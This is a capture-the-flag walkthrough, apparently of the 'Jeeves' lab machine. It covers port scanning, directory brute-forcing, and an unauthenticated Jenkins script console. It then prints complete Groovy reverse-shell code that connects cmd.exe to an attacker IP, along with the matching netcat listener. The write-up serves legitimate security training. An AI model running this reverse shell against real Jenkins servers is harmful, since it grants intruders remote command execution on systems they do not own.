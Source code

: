 ```shell

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 134.70 seconds
```

The Nmap scan gave us as result 4 open ports:
- Port 80 with a Microsoft IIS website.
- Port 135 RPC.
- Port 445 SMB.
- Port 50000 with Jetty 9.4.z-SNAPSHOT.

### Web Enumeration
We will enumerate port 80 first:
```shell
http://10.129.142.123
```
Visiting the website we can see a "Ask Jeeves" logo and a search box. If we try to search anything there we will get an error.

We will now take a look at port 50000:
```shell
http://10.129.142.123:50000
```
There is not much to see there here.
### Detecting unsecured Jenkins dashboard using Feroxbuster
We can use Feroxbuster to search for directories:
```shell
feroxbuster -u http://10.129.142.123:50000/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```
Feroxbuster found the following directory:
```shell
http://10.129.142.123:50000/askjeeves/
```
If we visit that URL, we will notice that we can access the Jenkins dashboard without entering any credentials. Lucky to us, this happened because the Jenkins server was not secured.

We can abuse this to get access using a groovy reverse shell.
# Foothold
### Access as user kohsuke using Groovy Reverse Shell on Jenkins
We will use a groovy reverse shell to get access.
First we need to go to Manage Jenkins -> Script Console. It will lead us to the following URL:
```shell
http://10.129.142.123:50000/askjeeves/script
```
Now visit the following URL and get the Groovy reverse shell:
```shell
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76
```
After that, change the String host to our Kali tun0 IP and int port to 8080:
```shell
String host="10.10.14.206";
int port=8080;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Now start a nc listener at port 8080 on Kali:
```shell
nc -lvnp 8080
```